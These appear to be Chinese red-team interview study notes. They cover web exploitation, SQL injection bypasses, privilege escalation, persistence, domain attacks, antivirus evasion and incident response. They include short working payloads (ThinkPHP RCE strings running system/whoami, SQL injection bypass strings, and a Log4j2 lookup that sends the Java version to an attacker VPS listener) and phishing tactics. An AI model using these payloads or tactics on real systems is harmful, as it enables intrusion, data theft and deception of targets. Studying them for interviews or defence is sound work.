（1）如果有phpinfo，找到$\_COOKIE\["cl\_session"]，会打印出httponly属性的cookies，在构建相关js请求cl\_session参数，让目标网站请求我们的恶意js可绕过

（2）钓鱼，构造相同界面，输入密码

（3）利用cors，原理是会话劫持，通过在恶意的js代码里面监听端口

# csp（Content-Security-Policy）:

csp是内容安全策略，能够阻止部分XSS攻击和数据注入攻击，CSP 的实质就是白名单制度，告诉客户端，哪些外部资源可以加载和执行.

csp策略具体内容一般在header字段以及html meta标签里面（常用的策略指令：（1）sandbox 沙盒模式，会阻止弹窗js的执行（2）default-src安全策略）

# 如何绕过csp：

（1）安全开发人员没有配置好，default-src字段为空，可以使用meta标签实现跳转

（2） 安全开发人员没有配置好，script-src 'self' 'unsafe-inline'，可以执行脚本，但是要跨过可信域的限制，使用window\.location/window\.open，因为跳转还是需要前端来执行，后端无法做出限制

（3）如果策略为只允许加载当前域的js，上传一个内容为js的图片

（4）标签fuzzing，比如常见的script/svg/img这些标签会被拦截，但是我们的link标签可以绕过，不同浏览器对CSP的支持都不完整

防御方法：（1）配置好安全策略CSP/httponly（2）过滤一些敏感字符串(< > " ' /)（3）限制输入长度（4）增加验证码（5）同源策略

# sql注入：

判断方式：php?id=6-2*1e308        and 1=TIME\_DIFF(ascii(1),*)        and {\`\`1=2}--+

# 常见的绕过方法：

（1）注释+内联+换行+hex编码+大小写（fuzz中文+%0a），能内联的函数union select / case

（2）特殊符号（反引号\`\`，感叹号!!!，编码，xor @，join）

（3）函数替换，order by = group by     union select = union+distinct+select = union+distinctRoW+select    mssql(declare,convert,hex编码，char编码)

（4）垃圾数据

（5）函数绕过，from(3e0from，from{x)    concat(make\_set，lpad)      空格（--+(1)%0a，+，内联）     单引号（%bf%27）     =（like,rlike,正则regexp）      括号（case whe配合like）   逗号（case when配合offset/）

（6）hpp参数污染，id=1\&id=-2'

# 盲注除了sleep还有什么什么函数：

ascii substr   strcmp substr    IFNULL substr    benchmark()函数重复执行某项指令

# 笛卡尔注入原理是什么：

对一张表作自身的笛卡尔积让查询时间变长从而达到和sleep一样的效果，如果系统返回结果的时间与之前有差异，那么就是我们注入的语句成功在系统内执行，也就是说存在注入漏洞

# SQLSERVER注入没有回显怎么办

创建一个表，将内容写入这个表，在查询这个表

# xp\_cmdshell被删除怎么办：

（1）启用sp\_oacreat，可用wscript和Application（2）上传xplog.dll（3）利用CLR程序集来执行命令（.NET Framework语言用户定义函数，创建恶意的cmd来执行命令）（4）agent job执行

# SQLSERVER不支持堆叠如何开启xp\_cmdshell

：（1）利用if开启堆叠模式（2）开启Ad Hoc Distributed Queries 组件启用堆叠

# SQL注入getshell方法,

看权限，没有写的权限就读(mysql)：

（1）sqlmap的--os-shell：利用into outfile上传马（Secure\_file\_priv为指定路径或空，拥有网站的写入权限，sqlserver看是不是sa权限）

（2）UDF提权（创建自定义函数（sys\_eval/sys\_exec））,可用--sql-shell查看版本，plugin文件位置，plugin无法创建可以用文件流创建

Mysql版本大于5.1版本：udf.dll文件必须放置于MYSQL安装目录下的lib\plugin文件夹下

Mysql版本小于5.1版本： udf.dll文件在Windows2003下放置于c:\windows\system32

（3）sql-shell读取密码（后台密码或者数据库密码），找phpadmin，利用日志get-shell，慢日志getshell（可绕过Secure\_file\_priv=null）

sqlserver:

（1）xpcmdshell写入一句话木马，^^转移，可用hex char绕过

（2）数据库差异备份/日志getshell

（3）sqlserver有部分CVE可以打

# SQL注入防御方法：

（1）过滤相关敏感函数

（2）数据库权限不能太高

（3）sql预编译（可fuzzing预编译闭合的方式）

（4）php开启magic\_quote\_gpc

# windows&\&linux提权的方式

win:

（1）土豆一族，利用relay（Hot Potato--MS16-075，http->smb），利用DCOM CALL 来使服务向攻击者监听的端口发起连接并进行 NTLM 认证（Juicy Potato）

这里补充一下Rotten Potato与Juicy Potato有什么区别

1.Rotten Potato使用的 COM 对象为 BITS，CLSID 为 {4991d34b-80a1-4291-83b6-3328366b9097}，Juicy Potato 提供了多个

2.Rotten Potato使用135端口 ，Juicy Potato 支持指定任意本地端口，但是 RPC 一般默认为135端口

（2）whoami /priv（特权提权，一般为iis，sqlserver服务账号提权）

（3）命名管道（msf的getsystem）

（4）令牌窃取（incognito）

（5）cve内核补丁提权

linux:

（1）内核漏洞（[linux-exploit-suggester.sh](http://linux-exploit-suggester.sh "linux-exploit-suggester.sh")）

（2）文件权限配置不当提权（进程启动权限为ROOT，对应文件编辑权限为普通用户，即可触发，常见的比如python,perl,tar,vim,find）

（3）sudo/计划任务配置错误（比如sudo -i，sudo -l，sudo用户免密登录）

（4）第三方服务提权，nfs，数据库等

# 权限维持（从用户和权限这2块来说）

1.利用sc自启动（sc create）,计划任务(crontab,plist)，bits权限维持，添加sudo免密

2.注册表（run/runonce/control panel（屏幕）/）,其他自启动目录隐藏文件（AppData+Start Menu+Startup/Start Menu\Programs\Startup）

3.shift5次后门后门，添加隐藏用户(通过注册表添加，利用api添加)

4.利用acl添加普通用户的完全访问权限（修改用户密码，将用户加入某个组，写入spn的权限/kerberosting，dcsync）  

5.AdminSDHolder         

6.基于资源的约束委派配合krbtgt用户进行权限维持

# [AD](http://19.AD "AD")\&CS

1.定位ADCS服务器            certutil -config - -ping 

2.利用certipy进行ADCS攻击（常见的为ECS1和ECS8）

ECS1：普通域用户到域管理员的提权

ECS8：adcs relay（通过Petitpotam进行relay，获取票据后dcsync）

# 条件竞争

通常的web处理方式是通过单线程线性完成的，如果出现多线程并发请求的情况，数据处理逻辑就可能出现异常,与之类似的还有hpp污染

条件竞争上传,在文件还没来得及删除访问

防御方式

业务与数据都经量上锁

# 代码审计

全局思路：1.把源码的所有文件写入一个txt，将txt放入bp爆破，查看有无未授权，文件上传等 2.全局搜索一些敏感函数，比如rce相关的file\_put\_contents，call\_user\_func等函数，上传相关的字段upload，任意文件下载/读取的函数，download

# XSS漏洞挖掘技巧，

XSS关注document.URL，eval，document.write等函数，SSRF关注调用curl或者wget的函数，在数据交互处查找直接或间接拼入SQL语句执行且输入参数内容我们可控

审计过的CMS/漏洞：福汇sql注入/维多利亚注入/

tp5 rce分析：

比如我们的GET型paylaod：?s=index/\think\app/invokefunction?function=call\_user\_func\&vars\[0]=system\&vars\[1]=whoami

GET型payload总的操作流程：没有开启强制路由，通过?s的方式传入路由信息，控制器的名字中存在 \或者以\开头，会被会被当作一个类(\think\app)，利用命名空间，实例化任意类，调用任意类的任意方法，比如call\_user\_func,通过对应的内部函数通过get请求传入拿下shell

GET型payload修复：开启强制路由

POST型paylaod：*method=* \_construct\&method=get\&filter\[]=call\_user\_func\&get\[]=phpinfo

POST型payload总的操作流程：Request类的method方法可控导致可以调用\_\_contruct()覆盖Request类的filter字段，通过\$request->param()会进入到input()方法，input()方法将被覆盖的filter回调call\_user\_func()，造成rce

POST型payload修复：添加控制器过滤，输入的路由将会报错404，不在执行，或者关闭debug模式

TP的打法：（1）各类rce尝试（2）日志包含，找日志（3）利用session拿下（条件竞争）（4）读文件，读数据库密码

# 登录窗口/后台的渗透思路

（1）弱口令/爆破，验证码可尝试用万能验证码绕过（逻辑漏洞），删除cookie等fuzzing burp suite，在ua头添加Set-Cookie

（2）密码找回，逻辑漏洞能不能拿下管理员账户，以及密码加密后+1，原理是复杂的md5/hash后端解密不出来，开发可能默认用做万能密码

（3）sql注入/万能密码

（4）可能是shiro的框架

（5）查看js，可能在js里面找到一些额外的东西，比如cms指纹以及其他编辑器

# Docker逃逸

查看是否是docker环境：cat /proc/1/cgroup内是否包含docker字符，.dockerenv文件是否存在

逃逸方法：

（1）Docker Remote API未授权：如果权限控制不当，可通过docker client或者http访问这个API，然后将宿主机的根目录挂在到容器的/mnt目录下，写入计划任务和公私钥，即可免密登录

（2）利用特权模式逃逸：在特权模式下，容器拥有所有权利,比如宿主机的一些内核特性和设备（利用fdisk -l检测或者0000003fffffffff），然后将/dev/vda2磁盘挂载到容器里的某个文件夹里（比如abc），然后再往/abc目录下写入文件（echo即可），如果可以，则可以写入计划任务反弹shell

（3）Docker.sock挂载到了容器里，因为docker.sock挂载到了容器里，在容器里先安装docker，在新容器挂载主机路径，写入计划任务，逃逸

# Log4j2漏洞原理

Property Support引用配置中的属性，或传递给底层组件并动态解析，用户可以用自定义的 Lookup 组件来配置自定义的值，Lookup组件里面就有jndi

# Log4j2绕过waf：

# 后门清理/各类日志

windows系统日志位置：C:\Windows\System32\Winevt       或者命令（eventvwr.msc）打开日志

windows日志注册表：HKEY\_LOCAL\_MACHINE\system\CurrentControlSet\Services\Eventlog

linux日志位置： /var/log

windows常见入侵排查：1.注册表 2.用户 3.计划任务 4.sc自启动 5.启动项文件夹

linux常见入侵排查：1.账号（有无新增可以账号，普通账号有无sudo权限）2.history命令或者.bash\_history文件 3.开机启动项（/etc/rc） 4.计划任务（crontab&\&spool）

# 我想问的

（1）团队目前情况，团队有多少人，各个师傅的技术栈是怎么样的，后续团队会有新的发展方向么，团队成立时间多久了，团队业务应收是公司排名靠前的么，安服的业务主要偏向web还是内网，出差的频率是多少（一年大概几次，一次多长，大概是分布哪些地方，业务的对象偏向金融还是政企），团队工作强度怎么样

（2）普调多久一次（普调涨薪的范围是多少），年终奖是多少薪/好久发，晋升是怎么样的，试用期好久（薪资打折么），工资几号发，有其他补助么（餐补/交通补），出差补助是怎么样的，入职配电脑么，

（3）五险一金基数怎么样，年假有多少，周末双休么，工作强度怎么样，上班时间怎么样（打卡么），有食堂么，具体福利还有什么（比如生日福利，中秋节这些），企业文化（员工培训），加班怎么算（普通工作日加班，节假日加班，出差甲方周末要求加班）

# ntlm验证机制 &#x20;

# kerberos认证黄金、白银票据制作原理，以及需要哪个值 &#x20;

# window redis 需要有哪些利用手段，除了写文件和启动项 &#x20;

# linux redis 写有哪些利用方式 &#x20;

# windows后门包括哪些方式 &#x20;

# cs hashdump和logonpasswd 分别从哪里读取哈希和密码 &#x20;

# 如何收集rdp连接记录，如果有杀软怎么办 &#x20;

# xss 设置http-only如何绕过 &#x20;

# xss攻击手段有哪些 &#x20;

# 遇到全是杀软的工作组怎么办 &#x20;

# 使用什么工具内网横向 &#x20;

# fscan扫机器崩了怎么办 &#x20;

# apache iis 解析漏洞是什么 &#x20;

# php文件上传绕过方式（黑、白名单、解析漏洞） &#x20;

# 工作组横向需要用户什么权限 &#x20;

# 如何查找域控（尽可能多的方式） &#x20;

# 如何从cdn 找真实ip &#x20;

# 如何判断邮箱类型 &#x20;

# 如何确定你拿到的就是真实ip &#x20;

# 机器不出网如何上线到cs（不出网的机器是拿到webshell的机器） &#x20;

# 走代理用哪些工具，遇到杀软怎么办 &#x20;

# 如何免杀 &#x20;

# sql注入bypass有哪些（尽可能多说） &#x20;

# 平常红队hw信息收集方式有哪些 &#x20;

# whois 收集的信息包括哪些 &#x20;

# 给一个登录框能想到哪些利用方式 &#x20;

# 平常开发经常用python 和php做什么 &#x20;

# 代码审计的思路是什么 &#x20;

# mysql getshell的前提是什么 &#x20;

# 其中需要mysql.ini 配置参数应该是怎样 &#x20;

# redis ssf 如何攻击内网，可以用到哪些协议 &#x20;

# 说一下udf提权 &#x20;

# xss 如何打内网xss打到cookie

# 后台不允许访问怎么办

# 端口不允许探测怎么办

# shellcode加载有什么现象

# 内网扫描如何规避蜜罐

# fastjson 新老版本如何利用

# dns隧道原理

# 搭建dns隧道需要怎么做。

# xff在osi第几层

# app抓不到包是什么原因以及如何绕过

# shiro 550 721 什么区别

# 135端口如何利用

# wmiexec常用端口。

# 你在hvv/攻防演练中取得了哪些成绩？

答：照着自己的经历说就行

# 上一个工作的主要内容？

# 有没有遇到过有意思的逻辑漏洞？

答：找回密码跳步，6个1的测试验证码等等

# 有没有自己开发过武器/工具？

答：没有，只二开过小工具

# 有cve/cnvd吗？

# 有src排名吗？

答：我菜，没有

# 有钓鱼经历吗？具体说说

答：钓校园vpn，hvv期间伪造重大漏洞补丁群发蓝队邮箱等等

# xss除了获取cookie还能干什么？

答：用户劫持、结合csrf

补充：貌似能提权？

# Ssrf的原理与危害？

# Ssrf和csrf有什么区别？

答：csrf伪造客户端，ssrf伪造服务器端

# 如何寻找注入点？

答：字符，数字，盲注…

# 有用过sql注入传马吗？

答：用过into outfile
补充：可以通过日志文件写入木马

# –os-shell的条件？

答：拥有网站的写入条件
补充：Secure\_file\_priv参数为空或者为指定路径。

# Fastjson的原理？

答:启一个rmi的服务器，上面挂payload,让被攻击的目标反序列化特定的类，这个类最终会调用lookup()函数，导致jndi接口指向rmi服务器上的恶意payload

# 利用fastjson注入内存马原理？

答：不知道这里应该怎么说，例如spring mvc的话就是通过fastjson的反序列化，利用jndi的方式让web端加载恶意类，注入controller

# 内存马免杀有做过吗？具体说说

答：没做过，在网上找现成的
补充：
Filter名称是否合理
Filter对应的类名是否合理
Filter对应的类是否在classpath下
网站web.xml中是否存在改filter

# Shiro550和shiro721的区别？

答:550有url就行，721还需要提供有效的rememberMe Cookie
补充：721多了个rememberMe Cookie重认证

# 你能从代码层理解shiro的原理吗？

答：这个说起来太麻烦了，自行百度吧

# 你拿到key了但是没有攻击链，此时应该怎么办？

答：这个我真不知道了

# Log4j2高版本jdk不支持外部加载jndi，应该怎么利用？

答：不会
补充：目前高版本JDK的防护方式主要是针对加载远程的ObjectFactory的加载做限制，只有开启了某些属性后才会通过指定的远程地址获取ObjectFactory的Class并实例化，进而通过ObjectFactory#getObjectInstance来获取返回的真实对象。但是在加载远程地址获取ObjectFactory前，首先在本地ClassPath下加载指定的ObjectFactory，本地加载ObjectFactory失败后才会加载远程地址的ObjectFactory，所以一个主要的绕过思路就是加载本地ClassPath下的ObjectFactory。具体的先知和跳跳糖上有文章，自己去看。

# 不借助dnslog有办法检测log4j2是否出网吗

答：dns到vps判断是否出网
补充：使用logg.error(“KaTeX parse error: Expected '}', got 'EOF' at end of input: …s\://xxxxx:8090/{java:version}}”);在自己的VPS上nc -luvvp 8090即可收到信息

# 你是如何验证struts2是否存在的

答：检测工具，或者抓包，改post，把content-Type改为application/xml,放上payload

# 有做过代码审计吗？有0day吗？

# Redis未授权有了解吗？

答：有，可以配合ssrf打组合拳

# Springboot 有哪些漏洞？

答：只知道一个snakeyaml

# 冰蝎和菜刀等webshell工具有什么区别？

答：冰蝎有流量动态加密

# Xxe原理与攻击手法？

答：解析XML输入时可以加载外部实体类，造成文件读取，命令执行等危害。直接dtd加载dnslog等等

# 如何判断当前主机是否在域环境内？

答：ipconfig /all看dns后缀
补充：systeminfo、net config workstation、net time /domain

# linux和windows怎么判断？

答：linux大小写敏感

# Cs和msf的优缺点？

答：我当时回答的是msf功能强大，但是只能上线一台，cs可以同时上线多台机器，插件多，但是没msf好用。

# 如何进行cs特征隐藏？

答：修改默认的50050端口，修改证书文件特征
补充：利用插件设置混淆配置文件

# 免杀有几种途径？

答：修改特征码、流量混淆、花指令、加壳
补充：看格林的免杀思路总结

# 谈谈Windows系统与Linux系统提权的思路

1.系统内核溢出漏洞提权
2.数据库提权
3.错误的系统配置提权
4.组策略首选项提权
5.WEB中间件漏洞提权
6.DLL劫持提权
7.滥用高危权限令牌提权
8.第三方软件/服务提权等
Linux
1.Linux内核漏洞提权（主要的几个记得说下）
2.低权限用户目录下可被Root权限用户调用的脚本提权（SUID）
3.环境变量劫持高权限程序提权
4.sudoer配置文件错误提权

# 你是怎么搭建隧道的

答：探测内网出网协议，netsh端口转发，正反向shell，转发dmz区端口，反弹socks5，ssh不用任何工具、vpn组网443隐蔽

# 权限维持的思路？

答:加服务,加注册表 加启动项，比较骚的姿势找自启动exe，然后dll劫持，落地了已经

# 简单说一下mssql提权

答：我只记得xp\_cmdshell和自启动
补充：trigger提权、沙盒提权、计划任务提权、sethc.exe 替换粘滞键提权
（替换c:\windows\system32\下的sethc.exe替换c:\windows\system32\dllcache\sethc.exe）

# 制作白银票据需要哪些条件？

# 域名、SID、密码HASH、伪造用户名、要访问的服务

# 你平时进行渗透测试的流程是什么样的

# 如何绕过CDN查找真实IP

# 过滤逗号的SQL注入如何绕过

# 过滤limit后的逗号如何绕过

# SSRF可以怎么利用

# 利用ThinkPHP的RCE时，如果发现有disablefunction怎么利用

# 绕过disablefunction的方法

# 平时怎么测试SQL注入漏洞的，除了sqlmap还用过哪些工具

# JWT有哪些漏洞和利用方法

# 你知道有哪些常见的未授权漏洞

# Spring Actuator未授权访问漏洞有哪些利用方式

# 你平时使用Burp多还是Yakit多，选择原因是什么

# Windows环境下怎么利用Redis未授权漏洞

# 文件上传漏洞怎么绕过WAF

# 有没有做过APP渗透，其防御中常见有哪些环境检测点，怎么绕过

# 微信小程序怎么做反编译和动态调试

# 测试越权的场景和思路有哪些

# MySQL下如何执行系统命令

# Oracle下如何执行系统命令

# 对于仅仅只有一个登录页面的网站，你的渗透思路是什么

# 你遇到过哪些有关云的测试案例

# 遇到XSS，你有哪些利用方法

# 怎么绕过同源策略

# 你平时参加攻防演练，给你一个目标，你的流程是什么样子的

# 做资产收集时，如何确保收集到的域名足够全面

# Linux除了内核提权，还有什么常用的提权方式

# 平时用过哪些C2，除了Cobalt Strike还有其他的吗

# 如何隐藏自己的Cobalt Strike，避免被公网扫描发现MSSQL执行命令的几种方式

# 正反向代理的区别

# 常用哪些方式和工具做流量代理，为什么喜欢用这种方式和工具

# Windows下你常用哪些权限维持方法

# 怎么做Bypass UAC的

# Windows自启动的原理

# 你平常钓鱼通常使用什么思路来找到对方的人员，以及用什么话术让对方打开木马

# 邮件钓鱼时怎么绕过对方的邮件网关，如何配置了拦截加密压缩包呢

# 讲讲你知道的攻防演练中的opsec

# 你知道的抓取凭证的方法，除了内存中还有哪里可以获取

# 平时用什么工具获取浏览器或常见运维工具的密码

# 有没有做过针对MacOS的钓鱼，思路是什么

# 如何隐藏用来维权的计划任务

# Webshell下执行命令，提示 error 5，这种会是什么原因，怎么解决

# 怎么获取已保存的RDP凭据，大致原理是什么

# 除了HTTP(S)和TCP，你还知道哪些C2通信的常见协议，它们特点是什么

# 有没有打过vCenter，如果上面的机器都锁屏了且没有密码，怎么利用

# 钓鱼时有没有预防对方出网受限的措施，如何判断对方是哪种协议可出网

# 如果发现已经控制的主机上有zabbix agent，怎么打zabbix server

# 域内收集信息的常用命令

# Kerberos认证大致流程和角色

# NTLM Relay原理

# 黄金票据原理，在 Kerberos认证的哪个阶段？如何制作？用哪个用户的 hash 来制作？

# 进入内网后，你的整体流程和思路是什么样的

# 有哪些方法可以直接攻击域控

# 域内用户和工作组用户的差别

# 什么情况下叫在域内

# 内网 PotitPetam 利用和原理

# 几种委派的原理和利用方式

# NoPAC漏洞的原理

# 对一个机器账号有全部属性的写权限，怎么利用

# 如果默认的可以创建10个机器账号被修改为0了怎么绕过

# Kerberosting原理

# 利用Kerberosting的时候会重点关注哪些服务

# AS-REPRoasting原理

# 有一台工作组的机器，可以访问域控，这时候怎么利用AS-REPRoasting

# 几种土豆提权的原理

# 黄金票据和白银票据的区别

# ADCS漏洞了解过吗

# 如果只有hash，怎么登录RDP

# Zerologon漏洞的原理

# 说一下域间信任

# 可以从什么方向去判断目标存在域环境

# 挂了socks代理，但是ping不通内网的机器，为什么

# Java反射做了什么事情

# Java反射可以修改`Final`字段吗

# 传统的反射方法加入黑名单怎么绕

# Java中可以执行反弹shell的命令吗

# 假设`Runtime.exec`加入黑名单还有什么方式执行命令

# RMI和LDAP类型的JNDI注入分别在哪个版本限制

# RMI和LDAP的限制版本分别可以怎样绕过

# 谈谈`TemplatesImpl`这个类

# 了解`BCEL ClassLoader`吗

# 谈谈7u21反序列化

# 谈谈8u20反序列化

# 了解缩小反序列化Payload的手段吗

# Shiro反序列化怎么检测key

# Shiro 721怎么利用

# 最新版Shiro还存在反序列化漏洞吗

# Shiro反序列化Gadget选择有什么坑吗

# Shiro注入Tomcat内存马有什么坑吗

# 有什么办法让Shiro漏洞只能被你一人发现

# Shiro的权限绕过问题了解吗

# Shiro的Payload过长怎么解决

# 谈谈Log4j2漏洞

# 知道Log4j2 2.15.0 RC1修复的绕过吗

# Log4j2的两个DOS CVE了解吗

# Log4j2 2.15.0正式版的绕过了解吗

# Log4j2绕WAF的手段有哪些

# Log4j2除了RCE还有什么利用姿势

# Fastjson漏洞的原理

# Fastjson漏洞不出网怎么利用

# 利用Fastjson漏洞时，怎么判断版本

# 各个中间件的回显思路

# 内存马有几种不同类别，分别是什么

# 平时怎么做的免杀

# 常见的反沙箱手段有哪些

# 常见的反虚拟机手段有哪些

# 你的Shellcode Loader中会使用哪些技术点

# 怎么规避360 QVM

# 权限维持怎么绕过常见的杀软

# 有没有研究过Cobalt Strike的Kit

# 进程注入的步骤

# 有没有挖过DLL劫持，怎么挖的

# 怎么解决DLL劫持利用的死锁问题

# 是否了解syscall的原理和分类

# 有没有做过webshell的免杀，具体会怎么做

# 对于工具的免杀，有源码和无源码的情况下你分别会怎么做

# 如何绕过新下载文件打开时的告警（smartscreen机制）

# 是否了解杀软的各种查杀机制特性，以及如何绕过这些机制

# 是否知道哪些可以规避杀软的抓取哈希的方法

# Sleepmask原理是什么，其本身是否有特征

# 有没有了解过BYOVD

# EDR致盲的原理是什么

# 360核晶的检测拦截内容包括哪些

# 你测试免杀的时候开不开网络，开不开云传，为什么

# 你平时使用哪种语言写木马，选择这种语言的原因是什么

# 为什么木马自己cmd运行不被杀，但是钓鱼时就会被杀

# 知不知道天擎的检测点，怎么绕过

# 有没有对抗过卡巴斯基，有哪些检测点

# 怎么绕过AMSI

# BOF、execute-assembly的原理是什么，有什么区别

# 进程注入如何去做应急响应？

&#x20;
钓鱼成功的场景如何应急的？
=============

# 内存马在不重启的情况下如何进行根除或者止损？

# java内存马不能被杀掉进程情况下会怎么做？

# IP溯源到是一个云主机的IP你还会得到什么信息？

# sqlmap产生几千条告警的情况下怎么判断攻击成功的告警？

&#x20;
如果正常业务也用shiro组件的话怎么判断shiro告警误报呢？
================================

# webhsell管理工具的流量特征？菜刀、蚁剑这种&#x20;

# 命令执行或者命令注入这种的payload长什么样？

# fastjson反序列化攻击的漏洞特征是什么样的？

# weblogic的攻击面有哪些？

# 给你一个IP在不反制的情况下如何判断是真正的攻击者还是攻击者控制的肉鸡呢？

# 蜜罐抓到了手机号能获取什么信息？

# 蜜罐抓到了域名还能获取什么信息？

# 如果被上了webshell如何快速找到这个webshell？

# 内网有一台机器因为扫描出有漏洞被下线了，这时候下线的情况下怎么打补丁？
